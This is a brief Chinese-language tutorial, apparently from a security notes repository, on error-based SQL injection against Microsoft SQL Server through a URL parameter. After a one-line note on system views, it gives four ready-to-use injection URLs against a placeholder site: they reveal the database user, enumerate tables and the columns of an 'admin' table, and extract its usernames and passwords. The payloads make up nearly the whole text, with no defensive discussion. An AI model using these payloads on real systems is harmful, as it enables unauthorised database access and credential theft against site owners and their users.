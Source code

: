 在SQL_SERVER 中 每个数据库中都有 视图->系统视图

在这个下面都有很多关于这个库的表，表里面存放了很多关于这个库的信息。

COLUMNS  列
TABLES 表

![img](../../acess/wps1.jpg) 

## 1、查询当前用户

```http
http://www.demo1.com/index.aspx?id=1 and user_name()>1
```

## 2、根据当前用户爆出所有表

```http
http://www.demo1.com/index.aspx?id=1 and(select TABLE_NAME  from  information_schema.TABLES  where TABLE_SCHEMA='dbo' FOR XML PATH)>1
```

## 3、爆出所有的列

```http
http://www.demo1.com/index.aspx?id=1 and(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='admin' FOR XML PATH)>1
```

## 4、爆出数据

```http
http://www.demo1.com/index.aspx?id=1 and ( select username,password from admin FOR XML PATH)>1
```

